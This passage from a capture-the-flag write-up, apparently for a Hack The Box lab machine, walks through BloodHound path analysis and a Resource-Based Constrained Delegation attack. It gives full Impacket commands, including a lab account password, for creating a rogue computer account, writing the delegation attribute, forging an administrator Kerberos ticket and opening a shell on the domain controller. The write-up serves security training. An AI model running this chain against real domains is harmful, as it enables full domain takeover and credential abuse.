

The collector produces a ZIP of JSON graph data, which was pulled back to the attacking host:

```bash
download <zip_file_name>
```



The archive was then imported into a local **BloodHound** instance.

### 7.2 Analysis — Privilege Chain to the DC

The compromised `support` account was marked as **pwned** so the tool would compute attack paths from our actual starting position the same way the user world sees it.



Tracing path and group memberships confirmed the earlier group observation with full context:

```
support  ->  Shared Support Accounts  ->  (privilege)  ->  DC.SUPPORT.HTB
```



The `Shared Support Accounts` group holds rights over the **domain controller's computer object**. This is an *extremely* interesting edge: the ability to write attributes on a computer object is the foundation of a delegation attack. Reviewing BloodHound's "Abusable Permissions" hints for the group confirmed the recommended primitive — **Resource-Based Constrained Delegation (RBCD)** — with no extra intermediate steps required.



### 7.3 Selected Abuse Primitive — RBCD

**Why RBCD works here:** RBCD delegates trust in the opposite direction of classic Kerberos delegation. If we can write the **`msDS-AllowedToActOnBehalfOfOtherIdentity`** attribute on a target computer object (here `DC$`), we declare that a chosen *other* computer account may request tickets **on behalf of any user** against that target. Because the group grants such write access to the DC's object, we can authorize our own rogue computer account to impersonate **Administrator** for Kerberos-protected services on the DC (e.g., `cifs`).

This completely sidesteps password reuse and lateral movement: one attribute write turns a mid-level account into full DC compromise.

---

## 8. Exploitation — Resource-Based Constrained Delegation

### 8.1 Creating the Attack Computer Object

RBCD requires the delegating account to be a valid computer principal. If the compromised rights allow it, we can manufacture one on the fly with **`addcomputer.py`** — no domain admin needed, since `Shared Support Accounts` has the required join rights.

```bash
addcomputer.py support.htb/support:'Ironside47pleasure40Watchful' \
    -computer-name 'attackersystem' -computer-pass 'test' -dc-ip $IP
```



This creates a legitimate machine principal `attackersystem$` — indistinguishable, told the directory, from a real joined endpoint.

### 8.2 Configuring RBCD on the DC

Next, **`rbcd.py`** writes our chosen delegate-from account into the DC's delegation whitelist attribute:

```bash
rbcd.py support.htb/support:'Ironside47pleasure40Watchful' \
    -delegate-to 'DC$' -delegate-from 'attackersystem$' -action write -dc-ip $IP
```



Technically this sets `msDS-AllowedToActOnBehalfOfOtherIdentity` on `DC$` to the **SID of `attackersystem$`** — explicitly authorizing our rogue machine to request tickets in the DC's name.

### 8.3 Obtaining a Delegated Service Ticket (S4U)

With the trust configured, **`getST.py`** performs the Kerberos S4U2Self + S4U2Proxy exchange: it authenticates as `attackersystem$`, asks for a service ticket to be minted for `cifs/dc.support.htb`, and **impersonates the domain Administrator** in the process.

```bash
getST.py -spn cifs/dc.support.htb -impersonate administrator -dc-ip $IP \
    'support.htb/attackersystem:test'
```



The output is a **`.ccache`** file: a forged (but cryptographically valid) Kerberos ticket proving the requester is Administrator with access to the DC's CIFS service.

### 8.4 Pass-the-Ticket with Impacket

Passing the ticket to the attacking host's Kerberos cache lets any Kerberos-aware client adopt the impersonated identity:

```bash
export KRB5CCNAME=<path_of_your_workspace>/<ticket>.ccache
```

Telling `KRB5CCNAME` to point at the `.ccache` file instructs tools which credential cache to consult without any password. `psexec.py` then connects using **only the ticket** (`-k`) and refuses to prompt for secrets (`-no-pass`):

```bash
psexec.py -k -no-pass support.htb/administrator@dc.support.htb
```



A shell as **NT AUTHORITY/SYSTEM-equivalent Administrator** on the domain controller was obtained.

---

## 9. Flags

| Flag       | Location                                    |
| ---------- | ------------------------------------------- |
| **User**   | `C:\Users\support\Desktop\user.txt`         |
| **Root**   | `C:\Users\Administrator\Desktop\root.txt`   |



---
## Appendix — Tools Utilized

| Phase                          | Tool                     |
| ------------------------------ | ------------------------ |
| Port/Service enumeration       | `nmap`                   |
| SMB null/anon testing          | `smbclient`              |
| RID cycling / user enumeration | `impacket-lookupsid`     |
| Password spraying / validation | `nxc` (netexec)          |
| .NET decompilation             | `AvaloniaILSpy` (ILSpy)  |
| LDAP enumeration               | `ApacheDirectoryStudio`  |
| Remote shell                   | `evil-winrm`             |
| AD graph analysis              | `BloodHound` / `SharpHound` |
| RBCD / Kerberos abuse          | `impacket` (`addcomputer.py`, `rbcd.py`, `getST.py`, `psexec.py`) |